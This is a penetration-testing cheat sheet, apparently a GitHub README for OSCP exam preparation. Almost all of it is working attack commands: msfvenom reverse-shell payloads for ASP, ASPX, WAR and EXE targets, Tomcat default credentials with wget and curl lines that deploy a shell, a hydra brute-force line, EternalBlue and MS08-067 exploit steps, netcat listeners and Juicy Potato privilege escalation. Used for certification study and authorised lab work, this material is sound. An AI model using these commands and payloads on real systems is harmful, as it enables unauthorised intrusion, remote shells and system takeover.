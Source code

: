 # OSCP-Cheat-Sheet

## NMAP

### TCP 

<code>nmap -v -sS -sC -sV -T4 -Pn -oA nmap/[filename.tcp] -p- [IP]</code>

### UDP

<code>nmap -sU -v -sS -sC -sV -T4 -Pn -oA nmap/[filename.udp] [IP]</code>

## SMB/Samba

<code>nmap -p 139,445 -Pn -script=smb-vuln* [IP]</code>

<code>smbclient -L //[IP]/</code>

<code>enum4linux -a [IP]</code>

<code>smbmap -H [IP]</code>

<code>./smbver.sh [IP]</code> [Found Here](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh)

## Werb Server

<code>dirb [URL]</code>

<code>nikto -h [URL]</code>

### ASP / ASP.NET

#### ASP Paylod: 

<code>msfvenom -p windows/shell_reverse_tcp LHOST=]LOCAL_IP] LPORT=[PORT] -f asp > shell.asp</code>

#### ASP.NET Payload: 

<code>msfvenom -p windows/shell_reverse_tcp LHOST=]LOCAL_IP] LPORT=[PORT] -f aspx > shell.aspx</code>

<code>msfvenom -p windows/shell_reverse_tcp LHOST=]LOCAL_IP] LPORT=[PORT] -f asp-exe > shell.aspx</code>

### Tomcat

#### Default Credentials

<code>admin:admin</code>

<code>tomcat:tomcat</code>

<code>admin:[NOTHING]</code>

<code>admin:s3cr3t</code>

<code>tomcat:s3cr3t</code>

<code>admin:tomcat</code>

#### Payload

<code>msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war > shell.war</code>

#### Uploading to Tomcat6

<code>wget 'http://[USER]:[password]@[IP]:8080/manager/deploy?war=file:shell.war&path=/shell' -O -</code>

#### Uploading to Tomcat7 and Above

<code>curl -v -u [USER]:[PASSWORD] -T shell.war 'http://[IP]:8080/manager/text/deploy?path=/shellh&update=true'</code>

### Local File Inclusion / Remote File Inclusion (LFI / RFI)

<code>https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion</code>

#### LFI Lists

Linux: <code>/home/pharo/wordlist/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt</code>

Windows: <code>/home/pharo/wordlist/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt</code>

Both: <code>/home/pharo/wordlist/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt</code>

## FTP 

### Brute Force

<code>hydra -V -f -L [USER_LIST] -P [PASSWORDS_LIST] ftp://[IP] -u -vV</code>

### Download

<code>ftp [IP]</code>

<code>>PASSIVE</code>

<code>>BINARY</code>

<code>>get [FILE]</code>

### Upload

<code>ftp [IP]</code>

<code>>PASSIVE</code>

<code>>BINARY</code>

<code>>put [FILE]</code>


## SMB Exploitation

### Eternal Blue (MS17-010) 

Use exploit found [here](https://github.com/worawit/MS17-010)

#### Payload

<code>msfvenom -p windows/shell_reverse_tcp LHOST=[LOCAL_IP] LPORT=[PORT] -f exe -o shell.exe</code>

Change the <code>USERNAME = ''</code> line to <code>USERNAME = '//'</code>


Uncomment the <code>smb_send_file(...)</code> and the <code>service_exe(...)</code>

Modify them to upload and execute the payload file

Use listener 

<code>nc -lnvp [PORT]</code>

### MS08-067

Use exploit found [here](https://github.com/andyacer/ms08_067)

#### Payloads

Windows x86: <code>msfvenom -p windows/shell_reverse_tcp LHOST=[LOCAL_IP] LPORT=[PORT] EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows -o shell.c</code>

Windows x64: <code>msfvenom -p windows/shell_reverse_tcp LHOST=[LOCAL_IP] LPORT=[PORT] EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x64 --platform windows -o shell.c</code>

Replace shell code in the script 

Execute the script

<code>python ms08_067_2018.py [IP] [OS_OPTION] [PORT]</code>

Use listener 

<code>nc -lnvp [PORT]</code>

## Windows Privilege Escalation

### Juicy Potato

Found [here](https://github.com/ohpe/juicy-potato) ([pre-compile binaries](https://github.com/ohpe/juicy-potato/releases))

#### Vulnerable OS Versions

- Windows 7 Enterprise
- Windows 8.1 Enterprise
- Windows 10 Enterprise
- Windows 10 Professional
- Windows Server 2008 R2 Enterprise
- Windows Server 2012 Datacenter
- Windows Server 2016 Standard

### Required Permissions
- <code>SeImpersonate</code>
- <code>SeAssignPrimaryToken</code>

### Generating the payload

Windows x64: <code>msfvenom -p windows/x64/shell_reverse_tcp LHOST=[LOCAL-IP] LPORT=[PORT] -f exe -o shell.exe</code>

Windows x82: <code>msfvenom -p windows/shell_reverse_tcp LHOST=[LOCAL-IP] LPORT=[PORT] -f exe -o shell.exe</code>

### Execution

Create the listener to cath the payload then run:

<code>JuicyPotato.exe -l 1337 -p [DIR\TO\EXPLOIT] -t * -c {CLSID}</code>
